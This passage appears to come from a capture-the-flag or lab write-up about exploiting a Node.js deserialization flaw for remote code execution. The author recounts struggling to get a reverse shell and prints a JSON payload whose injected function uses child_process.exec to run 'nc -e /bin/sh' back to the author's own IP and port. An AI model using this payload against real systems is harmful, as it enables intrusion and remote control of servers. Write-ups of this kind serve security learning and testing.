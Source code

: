 ![](00-PoC.png "")

> We'll keep you updated at: 4

## *We have remote code execution!*


## Reverse Shell

I spent a good amount of time on this part. I had trouble getting a reverse shell callback and I wasn't sure if the problem was with the payload itself, the payload not being encoded correctly or if the payload was using packages that weren't available on the server.

I tried multiple things and many iterations. I tried reverse shells and other techniques, like trying to exfiltrate command output and files using a HTTP-request to my own server.

The way the server side code works, it's hard to get command output sent to the webpage, at least when using callbacks from `require('child_process').exec` and similar. As far as I know anyway.

I started by using this payload:

```json
{"email": "_$$ND_FUNC$$_function() { require('child_process').exec('nc -e /bin/sh 10.11.31.199 9999') }()"}
```

I verified the payload on my local machine:
